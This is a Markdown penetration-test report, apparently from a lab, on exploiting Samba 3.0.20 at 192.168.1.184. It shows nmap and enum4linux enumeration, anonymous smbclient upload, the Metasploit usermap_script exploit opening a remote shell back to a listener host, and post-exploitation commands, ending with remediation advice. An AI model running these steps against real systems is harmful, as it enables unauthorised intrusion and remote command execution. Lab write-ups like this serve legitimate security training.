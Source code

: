 # 🔐 Penetration Test Report – Samba Exploitation (Ports 139/445)

## 📌 Target Information

- \*\*Target IP:\*\* `192.168.1.184`
- \*\*Service:\*\* Samba 3.0.20-Debian
- \*\*Discovered Ports:\*\* `139`, `445`

---

## 🔎 1. Service Enumeration with Nmap

* We performed an initial scan to identify open SMB ports and services:

```bash
nmap -p 139,445 -sC -sV 192.168.1.184
```
## ✅ Output:
```
PORT     STATE SERVICE     VERSION
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian
```
![Nmap](file:///C:/Users/moham/OneDrive/Desktop/Nmap.png)
## 🧰 2. Enumerating SMB Users and Shares – enum4linux
* We used enum4linux for deep enumeration:

enum4linux -a 192.168.1.184
### ✅ Findings:

* 🧑‍💻 **Users:** `root`, `msfadmin`, `postgres`, `nobody`, `user`, `www-data`, ...
* 📁 **Shares:**

    * `print$` – Access: ❌
    * `tmp` – Access: ✅
    * `opt` – Access: ❌
    ![Enum1](file:///C:/Users/moham/OneDrive/Desktop/Enum1.png)
    ![Enum2](file:///C:/Users/moham/OneDrive/Desktop/Enum2.png)
    ## 📂 3. Anonymous Access to Share (smbclient)

* We accessed the `tmp` share with anonymous login:

```
bashCopyEditsmbclient //192.168.1.184/tmp
```

* Uploaded a test file:

```
bashCopyEditput test.txt
```
## 💣 4. Exploiting Samba – `usermap_script` via Metasploit

We used Metasploit’s `usermap_script` exploit to get remote shell:

```
bashCopyEdituse exploit/multi/samba/usermap_script
set RHOSTS 192.168.1.184
set LHOST 192.168.1.182
run
```

### ✅ Result:

```
cssCopyEdit[*] Command shell session 1 opened
```
![Shell](file:///C:/Users/moham/OneDrive/Desktop/Shell.png)
## 🖥️ 5. Post-Exploitation: Host Info
* We validated shell access by running commands:
```
whoami
id
uname -a
cat /etc/issue
```
![Shell2](file:///C:/Users/moham/OneDrive/Desktop/Shell2.png)
## ✅ Conclusion

We successfully:

* Enumerated SMB users and shares
* Gained anonymous access to `/tmp` share
* Exploited Samba 3.0.20 with Metasploit
* Achieved remote shell on the target

> 
> 
> 🔐 **Vulnerability:** Samba 3.0.20 - `usermap_script`
> 
> ☠️ **Impact:** Full command execution
> 
> 💡 **Remediation:** Update Samba to the latest version and restrict anonymous access.
>